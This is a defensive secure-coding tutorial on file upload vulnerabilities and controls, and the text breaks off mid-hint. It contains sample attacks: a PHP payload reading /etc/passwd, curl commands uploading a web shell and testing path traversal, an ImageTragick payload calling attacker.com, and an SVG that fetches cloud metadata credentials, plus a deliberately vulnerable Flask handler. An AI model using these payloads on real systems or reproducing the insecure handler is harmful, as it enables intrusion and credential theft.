


⚡ TL;DR - File upload endpoints are one of the highest-risk
attack surfaces in web applications: attackers can upload
web shells for remote code execution, bypass MIME-type
checks with crafted polyglot files, or exploit
path-traversal to overwrite server files. Secure file
upload requires server-side content validation (not just
MIME headers), strict storage isolation, and execution
prevention - trusting the client's filename or
Content-Type is a critical vulnerability.

---

| #052 | Category: Security | Difficulty: ★★☆ |
|:---|:---|:---|
| **Depends on:** | SQL Injection, Input Validation vs Output Encoding, API Security Basics | |
| **Used by:** | SSRF, Deserialization Vulnerabilities, Container Security | |
| **Related:** | IDOR, Directory Traversal, Content Security Policy | |

---

### 🔥 The Problem This Solves

**WORLD WITHOUT IT:**
Every web application that lets users upload files faces
a fundamental trust problem: the file arrives from a
hostile network, named and typed by the sender. Without
controls, a user uploads `shell.php` disguised as
`profile.jpg`, the server stores it in a web-accessible
directory, and the attacker requests `https://app.com/
uploads/shell.php` - triggering code execution with
the web server's process privileges. Entire databases
have been exfiltrated, servers pivoted into internal
networks, and ransomware deployed through a single
misconfigured upload endpoint.

**THE BREAKING POINT:**
File uploads fail in multiple layers simultaneously:
the extension check trusts user input, the MIME type
check trusts the HTTP header (also user-controlled),
the storage path is predictable, and the storage
directory is web-accessible. Any one of these failures
is exploitable. Their combination is catastrophic.
High-profile breaches (ImageMagick's ImageTragick CVE-
2016-3714, multiple CMS shell upload chains) show this
is not theoretical.

**THE INVENTION MOMENT:**
File upload security controls emerged as web applications
grew richer in the 2000s - at the same time content
management systems, profile picture uploads, and
document portals became standard. Security researchers
systematized the threat (OWASP Unrestricted File Upload
guide) after repeated exploitation in the wild. The core
insight: every file upload is a code injection vector
unless actively constrained.

**EVOLUTION:**
Early controls (extension blocklist, MIME header check)
were trivially bypassed. The field evolved toward content-
based validation (libmagic, antivirus scanning), strict
storage separation (object storage outside document root,
served via CDN), and zero-trust filename handling (UUID
rename, strict extension allowlist). Modern cloud
architectures push uploads directly to S3/GCS pre-signed
URLs, bypassing the application server entirely.

---

### 📘 Textbook Definition

File upload security is the set of controls applied to
any endpoint that accepts user-supplied file data, designed
to prevent the file from being used as an attack vector.
Controls operate across validation (content type, size,
magic bytes), storage (isolated path, renamed filename,
no execution permissions), and serving (read-only CDN
delivery, Content-Disposition headers). A secure upload
implementation treats every uploaded file as untrusted
data and ensures it can never be interpreted as executable
code, regardless of what the client sends in the filename
or Content-Type header.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Never trust a file's name or type as sent by the client -
validate content, rename on arrival, and store where it
cannot execute.

**One analogy:**
> A bank mail room doesn't open every package based on
> the sender's label. It X-rays it (content inspection),
> removes the external label (rename), stores it in a
> vault (isolated storage), and never lets it walk into
> the server room unescorted (no execution). Trusting the
> label is how packages explode.

**One insight:**
The three independent controls - validate content (not
headers), rename to a UUID, store outside the web root -
are defense-in-depth: an attacker must bypass all three
simultaneously. Most real breaches exploit exactly one
missing layer.

---

### 🔩 First Principles Explanation

**CORE INVARIANTS:**
1. The client controls the filename, extension, Content-Type
   header, and file content - all four are untrusted data.
2. Code execution requires both write access and execution
   permission in the same location. Separating these breaks
   the chain.
3. Content validation on the server (magic bytes, antivirus)
   is fundamentally more reliable than metadata validation
   (header, extension) because content is harder to
   fake undetectably.

**DERIVED DESIGN:**
Given that filename and Content-Type are untrusted:
- Extension must be derived from an allowlist, never the
  client-supplied name
- MIME type must be confirmed by reading file bytes
  (magic number), not the HTTP header
- Destination filename must be server-generated (UUID)
- Storage must be outside the HTTP document root, or in
  a storage system with no execute capability (S3, GCS)

Given that content is the most reliable validation signal:
- Magic bytes (first 4-8 bytes) identify most file types
  reliably. A JPEG starts with `FF D8 FF`. A PHP script
  does not (unless polyglot-crafted - handle separately).
- Antivirus scanning (ClamAV, cloud APIs) adds a second
  independent validation layer for malware detection.

**THE TRADE-OFFS:**

**Gain:** eliminates the highest-impact class of upload
  vulnerabilities (RCE via web shell, path traversal).

**Cost:** added latency for content scanning, complexity
  of CDN-based serving, cannot preserve user filenames
  without careful re-mapping.

**ESSENTIAL vs ACCIDENTAL COMPLEXITY:**

**Essential:** A file is bytes with unknown provenance.
  Deciding what those bytes are allowed to do requires
  inspection and isolation - this is irreducible.

**Accidental:** Most upload implementations are insecure
  because frameworks provide convenience helpers that
  trust the client. The unsafe path is the path of least
  resistance. This complexity comes from ecosystem
  defaults, not the problem itself.

---

### 🧪 Thought Experiment

**SETUP:**
A social platform lets users upload profile pictures.
The backend checks that the Content-Type header equals
`image/jpeg` and stores the file as `/uploads/
{original-filename}`. The uploads directory is served
at `https://app.com/uploads/`.

**WHAT HAPPENS WITHOUT FILE UPLOAD SECURITY:**
1. Attacker creates a PHP file that reads `/etc/passwd`
   and echoes output: `<?php echo file_get_contents
   ('/etc/passwd'); ?>`
2. Attacker names it `shell.php`, sends it with header:
   `Content-Type: image/jpeg`
3. Server checks header - passes. Stores as
   `/uploads/shell.php`.
4. Attacker requests `https://app.com/uploads/shell.php`
5. Apache/Nginx passes `.php` files to PHP-FPM. Shell
   executes. Server contents exposed.

**WHAT HAPPENS WITH FILE UPLOAD SECURITY:**
1. Server reads first 8 bytes of uploaded file.
   PHP file bytes: `3C 3F 70 68` - magic `<?ph` - no
   JPEG magic number `FF D8 FF E0`.
2. Validation fails. File rejected. 400 returned.
3. If attacker crafts a polyglot (valid JPEG + PHP): UUID
   rename strips `.php` extension. CDN serves files as
   binary blobs, never routes to PHP-FPM.

**THE INSIGHT:**
Two independent gates (magic byte check, extension strip)
mean bypassing one does not grant execution. Defense-in-
depth forces the attacker to break both simultaneously.

---

### 🧠 Mental Model / Analogy

> Think of a secure file upload as a customs checkpoint.
> Every item gets declared by the traveler (client sends
> filename + Content-Type). Customs does not trust the
> declaration - they X-ray the bag (magic byte check),
> confiscate anything dangerous (antivirus scan), apply
> their own inventory number (UUID rename), and place it
> in a secure warehouse (isolated storage). When you
> pick it up, you get it in a sealed bag (CDN with
> Content-Disposition: attachment) - not handed directly
> to you to use however you like.

Mapping:
- "Traveler's declaration" → client filename and Content-Type
- "X-ray" → magic bytes / content inspection
- "Confiscate dangerous items" → reject disallowed types
- "Inventory number" → UUID rename
- "Secure warehouse" → storage outside document root (S3)
- "Sealed bag" → Content-Disposition: attachment header

Where this analogy breaks down: customs physically
separates items. In software, "separation" is a
configuration choice - a single misconfigured nginx
rule can collapse the isolation. The analogy understates
the fragility of software controls.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
When a website lets you upload a file, it needs to check
that the file is really what you say it is - because
attackers can rename a dangerous file as a harmless one.
Secure upload means checking the actual contents, storing
it safely, and never letting it run as a program.

**Level 2 - How to use it (junior developer):**
The minimal safe implementation: allowlist MIME types,
read the first bytes to confirm (magic numbers), rename
the file to a UUID on the server, store outside the web
root (or in S3), serve via CDN with `Content-Disposition:
attachment`. Never trust `Content-Type` header alone.
Never store with original filename. Never store in a
web-accessible directory with execute permissions.

**Level 3 - How it works (mid-level engineer):**
Content-Type validation is a two-step process: (1) MIME
header from client request (unreliable - user-controlled),
(2) magic byte check from file content (reliable).
Python: `python-magic` library reads libmagic. Java:
Apache Tika. Node: `file-type` npm package. For images
specifically, re-encoding through an image library
(Pillow, ImageMagick, sharp) strips any embedded payload
while generating a clean output file. Storage should use
pre-signed S3 URLs or equivalent so files never pass
through the application server at all.

**Level 4 - Why it was designed this way (senior/staff):**
The UUID rename + isolated storage combination addresses
two orthogonal attacks: UUID rename prevents filename-
based path traversal and web shell execution (attacker
cannot predict the stored path); isolated storage without
execute permissions prevents execution even if a malicious
file reaches storage. Neither control alone is sufficient:
UUID without isolation still allows execution if served
from a web directory. Isolation without rename allows
attackers to overwrite predictable files (including
existing PHP files if the original filename is preserved).
Re-encoding (for images) provides the strongest guarantee
because it does not trust the input format at all - it
parses it as image pixels and writes a new file.

**Level 5 - Mastery (distinguished engineer):**
The hardest class of file upload attacks involves polyglot
files - binary payloads that are simultaneously valid in
two formats. A JPEG/PHP polyglot starts with `FF D8 FF`
(valid JPEG header) and contains `<?php ... ?>` in the
EXIF comment field. Magic byte check passes. If the
server stores it with `.php` extension (or PHP is
configured to execute files regardless of extension),
the payload executes. Defense: (1) never preserve
extension from client, (2) re-encode images via a
rendering pipeline (pixels only, discards metadata and
embedded data), (3) configure PHP to execute ONLY files
in `/app/` not in `/uploads/`. At scale, image upload
pipelines move to dedicated media processing services
(ffmpeg for video, ImageMagick behind isolation, cloud
Vision APIs) with separate trust domains - the upload
worker has write-only access to a quarantine bucket;
a separate processing worker validates, transforms, and
promotes to the serving bucket. The application server
never touches a raw upload.

---

### ⚙️ How It Works (Mechanism)

**Secure upload flow - step by step:**

```
┌────────────────────────────────────────────┐
│        Secure Upload Pipeline              │
├────────────────────────────────────────────┤
│ 1. Client sends multipart/form-data        │
│    with file + Content-Type header         │
│                  │                         │
│                  ▼                         │
│ 2. Server reads file bytes into memory     │
│    (do NOT save to disk yet)               │
│                  │                         │
│                  ▼                         │
│ 3. Size check: reject > MAX_SIZE           │
│    (prevent DoS via large uploads)         │
│                  │                         │
│                  ▼                         │
│ 4. Magic byte check (libmagic/file-type)   │
│    Confirmed MIME ≠ claimed MIME → reject  │
│                  │                         │
│                  ▼                         │
│ 5. Extension allowlist from CONFIRMED MIME │
│    client filename DISCARDED               │
│                  │                         │
│                  ▼                         │
│ 6. (Images) Re-encode via Pillow/sharp     │
│    strips EXIF, polyglot payloads          │
│                  │                         │
│                  ▼                         │
│ 7. Generate UUID filename                  │
│    e.g. 3f7a2b1c-9e4d-....jpg             │
│                  │                         │
│                  ▼                         │
│ 8. Store to S3 (not web root)              │
│    with server-side encryption at rest     │
│                  │                         │
│                  ▼                         │
│ 9. Store (user_id, uuid_name, orig_name)   │
│    in DB for reference                     │
│                  │                         │
│                  ▼                         │
│ 10. Serve via CDN pre-signed URL           │
│     Content-Disposition: attachment        │
│     Content-Type: from DB (not re-read)    │
└────────────────────────────────────────────┘
```



**Magic byte reference (most common types):**

```
JPEG: FF D8 FF
PNG:  89 50 4E 47 0D 0A 1A 0A
GIF:  47 49 46 38
PDF:  25 50 44 46 (%)
ZIP:  50 4B 03 04
PHP:  3C 3F 70 68 (<?ph - reject immediately)
```

**CONCURRENCY / THREAD-SAFETY BEHAVIOR:**
Pre-signed S3 URLs with short TTL (60-300s) prevent
replay attacks where an attacker reuses a valid upload
URL. Generate one URL per upload request. Do not share
URLs across users. S3 object-level ACLs should be
`private` by default; read access only via pre-signed
URLs or CloudFront signed cookies.

---

### 🔄 The Complete Picture - End-to-End Flow

**NORMAL FLOW:**

```
Browser → [Multipart POST /upload]
  → Server: size check
  → Server: magic byte validation
  → Server: image re-encode (if image)
  → Server: UUID rename
  → S3 PUT (server-side)  ← YOU ARE HERE
  → DB: store (user, uuid, original_name, mime)
  → Response: 200 + CDN URL
  → Client requests CDN URL
  → CDN: serves with Content-Disposition: attachment
```

**FAILURE PATH:**
File with PHP magic bytes uploaded → magic check fails
→ 422 returned → file never written to disk or S3 →
no cleanup needed.

**WHAT CHANGES AT SCALE:**
At high upload volume (10k+ uploads/minute), in-process
validation and re-encoding become latency bottlenecks.
Pattern: client uploads directly to S3 via pre-signed
URL (bypasses application server), a Lambda/worker
triggered by S3 event validates and re-encodes, promotes
to serving bucket or deletes quarantined file. Application
server only generates the pre-signed URL and receives
the webhook confirmation - never sees raw bytes.

---

### 💻 Code Example

**Example 1 - BAD: trusting client Content-Type and filename**

```python
# BAD: this is the #1 exploited pattern in the wild
from flask import Flask, request
import os

app = Flask(__name__)

@app.route("/upload", methods=["POST"])
def upload_bad():
    f = request.files["file"]

    # BAD #1: trusting client-supplied MIME type
    if f.content_type not in ["image/jpeg", "image/png"]:
        return "invalid type", 400

    # BAD #2: using original filename (path traversal)
    # BAD #3: storing in web-accessible directory
    save_path = os.path.join("/var/www/uploads", f.filename)
    f.save(save_path)
    return f"Uploaded: /uploads/{f.filename}", 200

# EXPLOIT:
# curl -X POST https://app.com/upload \
#   -F "file=@shell.php;type=image/jpeg"
#
# Client sends Content-Type: image/jpeg but file is PHP.
# Server trusts the header. Saves as /var/www/uploads/shell.php
# Apache executes it: https://app.com/uploads/shell.php
# Full server compromise from one upload.
```

---

**Example 2 - GOOD: server-side content validation + UUID rename**

```python
# GOOD: validate content, rename, store isolated
import uuid
import magic            # python-magic (libmagic bindings)
import boto3
from PIL import Image   # Pillow for image re-encoding
import io
from flask import Flask, request, abort

app = Flask(__name__)
s3 = boto3.client("s3")

# Allowlist: MIME type → safe extension
ALLOWED_TYPES = {
    "image/jpeg": ".jpg",
    "image/png":  ".png",
    "image/gif":  ".gif",
    "application/pdf": ".pdf",
}
MAX_SIZE_BYTES = 10 * 1024 * 1024  # 10MB

@app.route("/upload", methods=["POST"])
def upload_safe():
    f = request.files.get("file")
    if not f:
        abort(400, "No file provided")

    # 1. Read into memory (not written to disk yet)
    data = f.read(MAX_SIZE_BYTES + 1)

    # 2. Size check - prevent DoS
    if len(data) > MAX_SIZE_BYTES:
        abort(413, "File too large")

    # 3. Magic byte check via libmagic
    # WHY: Content-Type header is untrusted user input
    detected_mime = magic.from_buffer(data, mime=True)

    if detected_mime not in ALLOWED_TYPES:
        # Log for security monitoring (not returned to user)
        app.logger.warning(
            "Blocked upload: detected=%s claimed=%s",
            detected_mime, f.content_type
        )
        abort(422, "File type not allowed")

    # 4. For images: re-encode to strip EXIF + polyglots
    # WHY: re-encoding parses only pixel data; discards
    # any embedded PHP, shell code, or EXIF payloads
    if detected_mime.startswith("image/"):
        try:
            img = Image.open(io.BytesIO(data))
            # Strip EXIF by saving without metadata
            output = io.BytesIO()
            img.save(output, format=img.format,
                     exif=b"")  # empty EXIF
            data = output.getvalue()
        except Exception:
            abort(422, "Invalid image data")

    # 5. UUID rename - NEVER use original filename
    # WHY: prevents path traversal + web shell execution
    ext = ALLOWED_TYPES[detected_mime]
    safe_name = f"{uuid.uuid4()}{ext}"

    # 6. Store in S3 (NOT in web root)
    # WHY: S3 objects are not executable by PHP/Apache
    s3.put_object(
        Bucket="my-app-uploads",
        Key=f"user-uploads/{safe_name}",
        Body=data,
        ContentType=detected_mime,
        ServerSideEncryption="AES256",
    )

    # 7. Store mapping in DB
    # (original name for display, UUID for storage)
    db.execute(
        "INSERT INTO uploads VALUES (?,?,?,?)",
        (current_user.id, safe_name,
         f.filename, detected_mime)
    )

    return {"id": safe_name}, 201

# WHAT BREAKS if line `detected_mime = magic.from_buffer
# (data, mime=True)` is removed:
# Attacker submits shell.php with Content-Type: image/jpeg,
# detection falls back to the untrusted header, PHP file
# reaches S3 with .jpg extension. If server ever re-parses
# extension for serving, attacker can still chain to RCE.

# HOW TO TEST:
# Upload a PHP file with Content-Type: image/jpeg.
# Expect 422. Check no file in S3.
# Upload a valid JPEG. Expect 201. Verify S3 key is UUID.
```

---

**Example 3 - Failure: ImageMagick processing untrusted files**

```bash
# ImageMagick's "delegate" feature can execute system
# commands via malicious file formats.
# CVE-2016-3714 (ImageTragick) exploit:

# Attacker crafts a .mvg file (ImageMagick vector format)
# masquerading as image.jpg:

cat > exploit.jpg << 'EOF'
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/"|id; curl https://\
attacker.com/$(id)|")'
pop graphic-context
EOF

# If your upload pipeline runs:
# convert input.jpg output.png
# Without disabling ImageMagick delegates, the `id`
# command executes on the server.

# Diagnostic: check ImageMagick policy
cat /etc/ImageMagick-6/policy.xml
# Look for:
# <policy domain="coder" rights="none" pattern="HTTPS"/>
# <policy domain="coder" rights="none" pattern="HTTP"/>
# Missing these policies = vulnerable

# Fix: disable dangerous coders in policy.xml
# AND validate magic bytes BEFORE passing to ImageMagick
# AND run ImageMagick in a container/sandbox with
# no network access and read-only filesystem
```

---

**How to test / verify correctness:**
Upload a PHP file with `.jpg` extension and
`Content-Type: image/jpeg` header. Expect 422.
Upload a valid JPEG. Expect 201 with UUID filename in
response. Verify UUID stored in S3, not original name.
Attempt to fetch the UUID path directly (not via CDN) -
expect 403 (private S3 ACL). Use `curl -v` to verify
`Content-Disposition: attachment` on CDN delivery.

---

### ⚖️ Comparison Table

| Validation Method | What It Checks | Bypass-able? | Best For |
|:---|:---|:---|:---|
| **Content-Type header** | HTTP metadata only | Yes - trivially | Nothing - insufficient alone |
| **Extension check (blocklist)** | Filename suffix | Yes - null bytes, double ext | Should not use alone |
| **Extension check (allowlist)** | Filename suffix | Yes if extension not stripped | Supplement only |
| **Magic bytes (libmagic)** | File content header | Hard - polyglots possible | Primary validation layer |
| **Re-encode (Pillow/sharp)** | Parse as target format | Near-impossible for images | Images - strongest control |
| **Antivirus (ClamAV, cloud)** | Known malware signatures | 0-day bypasses exist | Defense-in-depth layer |

How to choose: use magic bytes as the primary validation
gate, combined with re-encoding for images. Add antivirus
scanning for documents (PDF, DOCX). Never rely on a
single validation method.

---

### 🔁 Flow / Lifecycle

```
┌────────────────────────────────────────────┐
│           Upload File Lifecycle            │
├────────────────────────────────────────────┤
│ 1. RECEIVE      ← bytes arrive in memory  │
│         │                                  │
│         ▼                                  │
│ 2. VALIDATE     ← magic bytes + size      │
│         │ FAIL → 422, stop, no disk write │
│         ▼                                  │
│ 3. TRANSFORM    ← re-encode if image      │
│         │                                  │
│         ▼                                  │
│ 4. QUARANTINE   ← write to temp S3 prefix │
│         │                                  │
│         ▼                                  │
│ 5. SCAN         ← antivirus async job     │
│         │ FAIL → delete from quarantine   │
│         ▼                                  │
│ 6. PROMOTE      ← move to serving prefix  │
│         │                                  │
│         ▼                                  │
│ 7. SERVE        ← CDN pre-signed URL      │
│         │                                  │
│         ▼                                  │
│ 8. EXPIRE       ← retention policy/delete │
└────────────────────────────────────────────┘
```



---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| Checking `Content-Type: image/jpeg` prevents PHP upload | The Content-Type header is set by the client and can be set to anything. A PHP file with `Content-Type: image/jpeg` passes this check trivially. |
| Storing files in `/uploads/` is safe if you check the extension | If the web server is configured to execute PHP in any directory (common default), a PHP file in `/uploads/` executes regardless of any pre-storage checks. |
| Renaming to UUID is sufficient security | UUID rename prevents filename-based attacks but does not prevent execution if the file is stored in a web-accessible directory. Storage isolation is required in addition. |
| Antivirus scanning is the primary control | Antivirus catches known malware but is bypassable with custom web shells. It is a supplementary layer, not the primary control. Magic bytes + isolated storage are primary. |
| S3 storage means uploads are automatically secure | S3 bucket ACLs default to private but misconfiguration is common (public buckets). Even with private ACL, server-side script execution is not possible in S3, but bucket policy errors can expose files. |

---

### 🚨 Failure Modes & Diagnosis

**Web shell upload via extension bypass**

**Symptom:** Unusual HTTP requests to `/uploads/*.php`
URLs in access logs. Server CPU spikes with no
corresponding application traffic. Unexpected outbound
connections from web server process.

**Root Cause:** Upload endpoint accepts files based on
Content-Type header or extension blocklist. Attacker
uploads `shell.php` as `image/jpeg`. File stored in
web-accessible directory. Apache/Nginx routes `.php`
requests to PHP-FPM. Shell executes.

**Diagnostic Command / Tool:**
```bash
# Check for PHP files in upload directories
find /var/www/uploads -name "*.php" -o -name "*.phtml" \
  -o -name "*.php5" -o -name "*.shtml"

# Check web server access log for execution attempts
grep "GET /uploads/.*\.php" /var/log/nginx/access.log

# Check for unexpected processes spawned by web server
ps aux | grep -E "apache|nginx|php-fpm" | head -20
# Then check children: pstree -p $(pgrep php-fpm)

# Check for web shell indicators in upload dir
grep -r "eval\|base64_decode\|system\|passthru\|shell_exec" \
  /var/www/uploads/ 2>/dev/null
```

**Fix:** Move all uploads outside document root. If
migrating existing system: add Nginx rule to deny
execution in upload path:
```nginx
location /uploads/ {
    # Deny PHP execution in upload directory
    location ~ \.php$ { deny all; }
    # Serve as download, not inline
    add_header Content-Disposition "attachment";
}
```

**Prevention:** Store files in S3 or outside document
root from day one. Run an allowlist magic-byte check.

---

**Polyglot file bypass (JPEG + PHP)**

**Symptom:** Magic byte check passes (`FF D8 FF` detected
as JPEG) but uploaded file contains embedded PHP payload
in EXIF comment field or appended after JPEG end-of-image
marker.

**Root Cause:** Magic byte check reads first 4 bytes
(valid JPEG header). EXIF comment contains `<?php ... ?>`
or PHP code appended after `FF D9` (JPEG EOI). If PHP
processes any `.jpg` file as PHP (common in some configs),
payload executes.

**Diagnostic Command / Tool:**
```bash
# Inspect EXIF data for embedded code
exiftool suspicious.jpg | grep -i "comment\|script\|php"

# Check for PHP markers appended after JPEG EOI
xxd suspicious.jpg | grep -A2 "ff d9"
# If content follows ff d9, file is suspicious

# Check PHP config: does it execute .jpg files?
grep -r "AddHandler php" /etc/apache2/ /etc/httpd/
# Any match = critical misconfiguration
```

**Fix:** Re-encode all uploaded images through Pillow
or sharp. Re-encoding parses pixel data only and writes
a clean new file - EXIF comments and appended data are
stripped. Never configure PHP to execute `.jpg` files.

**Prevention:** Image re-encoding is the only reliable
defense against polyglots for image uploads.

---

**Path traversal via filename (`../../../etc/passwd`)**

**Symptom:** Files appear outside the intended upload
directory. Existing application files overwritten.
Logs show `..` sequences in stored paths.

**Root Cause:** Upload handler uses `os.path.join(
upload_dir, f.filename)` without sanitizing the filename.
If `f.filename` is `../../app/config.py`, the join
produces a path outside `upload_dir`.

**Diagnostic Command / Tool:**
```bash
# Test path traversal (in controlled test environment)
curl -X POST https://app.com/upload \
  -F "file=@test.txt;filename=../../sensitive.txt"

# Check if stored outside expected directory
ls -la /var/www/uploads/../
```

**Fix:**
```python
# BAD
save_path = os.path.join(upload_dir, f.filename)

# GOOD: UUID rename removes the entire problem
safe_name = f"{uuid.uuid4()}.jpg"
save_path = os.path.join(upload_dir, safe_name)
# os.path.join with a UUID never traverses directories
```

**Prevention:** Always UUID-rename on server. The
original filename should only be stored in the DB
for display - never used as a filesystem path.

---

### 🔗 Related Keywords

**Prerequisites (understand these first):**
- `Input Validation vs Output Encoding` - file upload
  is a specialized form of input validation where the
  input is binary content, not string data
- `SQL Injection` - the same trust boundary principle:
  never use user-supplied data directly as a code/path
  component without validation and sanitization
- `API Security Basics` - upload endpoints are APIs
  with the same auth and rate-limiting requirements

**Builds On This (learn these next):**
- `SSRF (Server-Side Request Forgery)` - malicious file
  content can trigger SSRF if the server fetches URLs
  embedded in uploaded documents (PDF, SVG, XML)
- `Deserialization Vulnerabilities` - uploaded files
  that are deserialized (Java object streams, pickle)
  are a distinct RCE vector
- `Container Security Basics` - running file processing
  (ImageMagick, FFmpeg) in isolated containers limits
  blast radius of processing vulnerabilities

**Alternatives / Comparisons:**
- `Directory Traversal Vulnerability` - filename-based
  path traversal is a subset of this topic
- `IDOR (Insecure Direct Object Reference)` - accessing
  other users' uploaded files via predictable IDs

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ WHAT IT IS   │ Controls to prevent uploaded files from   │
│              │ being executed or exploited as vectors     │
├──────────────┼───────────────────────────────────────────┤
│ PROBLEM IT   │ Files are RCE/exfil vectors if stored     │
│ SOLVES       │ with executable permissions + known path  │
├──────────────┼───────────────────────────────────────────┤
│ KEY INSIGHT  │ Magic bytes > Content-Type header.        │
│              │ UUID rename breaks path traversal.        │
│              │ Storage isolation breaks execution chain. │
├──────────────┼───────────────────────────────────────────┤
│ USE WHEN     │ Any endpoint accepting user-supplied files │
│              │ regardless of type (image, doc, video)    │
├──────────────┼───────────────────────────────────────────┤
│ AVOID WHEN   │ N/A - these controls apply universally    │
│              │ to all file upload endpoints              │
├──────────────┼───────────────────────────────────────────┤
│ ANTI-PATTERN │ Trust client Content-Type header; store   │
│              │ with original filename in web root        │
├──────────────┼───────────────────────────────────────────┤
│ TRADE-OFF    │ Security depth vs upload latency (scan    │
│              │ time adds 100-500ms per file)             │
├──────────────┼───────────────────────────────────────────┤
│ ONE-LINER    │ "The client lies about the file. Always   │
│              │ read the bytes, rename to UUID, store     │
│              │ where it cannot execute."                 │
├──────────────┼───────────────────────────────────────────┤
│ NEXT EXPLORE │ SSRF → Deserialization → Container        │
│              │ Security                                  │
└──────────────────────────────────────────────────────────┘
```

**If you remember only 3 things:**
1. Content-Type header is user-controlled and untrusted.
   Read the actual file bytes (magic numbers) to determine
   what the file really is.
2. UUID rename + storage outside document root breaks
   the web shell execution chain independently - you need
   both because either alone can be bypassed.
3. For images, re-encoding through a rendering library
   (Pillow, sharp) is the only reliable defense against
   polyglot files - it destroys any embedded payload.

**Interview one-liner:**
"Secure file upload has three independent gates: magic-
byte content validation (not header trust), server-side
UUID rename (never use client filename), and isolated
storage with no execute permissions. Each gate stops a
different attack class - you need all three because
bypassing one alone doesn't grant execution."

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
Never use user-supplied metadata to make security
decisions - validate the data itself. The Content-Type
header is like a package label: the sender fills it in.
The actual content is what matters. This principle
recurs across SQL injection (don't trust query strings
for SQL structure), deserialization (don't trust class
names in serialized data), and DNS rebinding (don't
trust hostname for origin validation).

**Where else this pattern appears:**
- SQL injection - parameterized queries validate the
  data bytes, not the format the caller claims
- JWT algorithm confusion - don't trust the `alg` header
  field in the JWT; enforce server-side algorithm
- DNS rebinding - don't trust the hostname in the
  request to determine if it's an internal request

**Industry applications:**
- Healthcare (HIPAA) - uploaded diagnostic images
  (DICOM) processed in isolated containers due to
  ImageMagick delegate RCE history; raw DICOM never
  reaches application servers
- E-commerce - product image uploads routed through
  dedicated media processing services (Lambda + S3) to
  prevent compromise of the payment application tier

---

### 💡 The Surprising Truth

The most dangerous class of file upload attack has
nothing to do with PHP web shells. In modern cloud
architectures, uploaded SVG files can trigger SSRF
when rendered by a server-side PDF generator (like
wkhtmltopdf or Puppeteer): an SVG containing `<image
href="http://169.254.169.254/latest/meta-data/iam/">` 
causes the renderer to fetch AWS EC2 metadata, leaking
instance credentials. A single "image upload" can
exfiltrate full cloud IAM credentials - no code execution
required. Magic byte validation detects that it's an SVG
(allowed type) and passes it. The attack surface is the
rendering pipeline, not the upload itself.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**

1. **EXPLAIN** Describe exactly why Content-Type header
   validation is insufficient and what a magic byte check
   does differently, using a JPEG/PHP polyglot as
   the example.

2. **DEBUG** Given an Nginx access log showing 200
   responses to `/uploads/*.php`, identify the two
   configuration or code failures that allowed it and
   name the specific file and directive to fix.

3. **DECIDE** An existing upload endpoint stores files
   in `/var/www/html/uploads/`. You cannot change the
   storage location this sprint. What single Nginx
   directive reduces the risk most, and what residual
   risk remains?

4. **BUILD** Implement a Python upload handler that uses
   `python-magic` for MIME detection, re-encodes images
   via Pillow, and stores to S3 with a UUID key. Write
   a pytest test that uploads a PHP file with
   `Content-Type: image/jpeg` and asserts 422.

5. **EXTEND** Design a media processing pipeline for a
   platform receiving 50k image uploads per minute.
   Explain the quarantine-scan-promote pattern, where
   antivirus scanning fits, and how pre-signed S3 URLs
   remove the application server from the upload path
   entirely.

---

### 🧠 Think About This Before We Continue

**Q1.** A user reports that their profile image upload
is rejected with 422 even though they are uploading a
genuine JPEG. Investigation shows the file was exported
from Photoshop with a large ICC color profile embedded.
Your magic byte check uses `magic.from_buffer(data[:8],
mime=True)`. What could cause a valid JPEG to fail this
check, and how would you diagnose it? What change would
you make to the check without reducing security?

*Hint: Think about what the first 8 bytes of a JPEG
